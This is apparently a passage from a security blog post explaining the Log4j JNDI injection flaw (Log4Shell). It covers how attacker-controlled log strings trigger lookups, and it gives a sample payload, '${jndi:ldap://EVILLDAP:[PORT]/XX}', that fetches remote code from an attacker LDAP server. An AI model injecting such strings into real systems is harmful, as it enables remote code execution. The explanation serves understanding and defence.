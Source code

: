 (for a more technical code insight [https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/](https://y4y.space/2021/12/10/log4j-analysis-more-jndi-injection/)). 

  

It means that, if the application wants to log some dynamic content coming from an external source, such as, _a message about an error login_ from a non existing username, it might call something like:

> logger.warn(username + " not found!");

If the username value is controlled by a malicious user it will be possible to exploit the vulnerability and even execute arbitrary code on the affected platform.

  

In particular, if an attacker is able to control the log message string, even partially, and he is able to inject the '**_${_**' and '_**}**_' metacharacters the Log4j I[nterpolator](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java) will parse the content and look for [specific patterns](https://github.com/apache/logging-log4j2/blob/master/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/Interpolator.java#L103).

  

According to the Interceptor class the following patterns are enabled by default:

> -   log4j
> -   sys 
> -   env
> -   main
> -   marker
> -   java
> -   lower
> -   upper
> -   date
> -   ctx
> -   jndi (if org.apache.logging.log4j.core.lookup.JndiLookup is present)
> -   web (if org.apache.logging.log4j.web.WebLookup is present)
> -   docker 
> -   spring
> -   kubernetes

So, the real deal is about an attack that can be performed via JNDI:LDAP keyword (or similar patterns such as RMI, COS etc..). In fact by injecting something like:

> ${jndi:ldap://EVILLDAP:\[PORT\]/XX}

as argument in the sink method, Log4j will:

1.  trigger a DNS request to check if the EVILLDAP hostname needs to be resolved
2.  perform an LDAP request to the (attacker controlled) LDAP server hosted on the resolved IP
3.  the attacker controlled LDAP server will then be able to reply with a malicious serialized Java object, which will be executed on the Log4j side.
4.  if the malicious object, by abusing internal features (gadgets), is able to trigger the correct set of instruction, the vulnerability will be successfully exploited.

As can be noted, **this is a two stages attack,** in fact, after the vulnerability is triggered, the vulnerable application needs to send a request to the malicious server in order to get the RCE payload.
